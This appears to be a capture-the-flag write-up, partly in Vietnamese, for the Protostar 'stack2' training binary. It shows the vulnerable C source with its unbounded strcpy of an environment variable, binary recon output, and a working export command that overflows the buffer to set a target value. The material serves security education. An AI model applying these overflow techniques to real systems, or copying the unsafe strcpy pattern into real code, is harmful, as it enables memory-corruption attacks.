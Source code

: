 # **stack2**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

New knowledge:
- getenv(): searches for the environment string by name and returns the associated value to the string.
- errx(): go to #references

## Target
printf("you have correctly modified the variable\n");

## Vulnerability
strcpy()

## Recon

```
┌──(kali㉿kali)-[~/Documents/week9/bin]
└─$ rabin2 -I ./stack2
arch     x86
baddr    0x8048000
binsz    23350
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Debian 4.4.5-8) 4.4.5 GCC: (Debian 4.4.5-10) 4.4.5
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       false
os       linux
pic      false
relocs   true
relro    no
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

## Exploit
- 0x0a = '\n'
- 0x0d = '\r'
- Tìm command để set env: => export <=
```
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print('a'*64 + '\n\r\n\r')")
```
or
```
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print('a'*64 + '\x0a\x0d\x0a\x0d')")
```
- Success:
```
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable 
```

# References
- getenv() functions: https://www.tutorialspoint.com/c_standard_library/c_function_getenv.htm
- errx(): https://docs.oracle.com/cd/E36784_01/html/E36874/errx-3c.html
- How do I set an environment variable?: https://www.schrodinger.com/kb/1842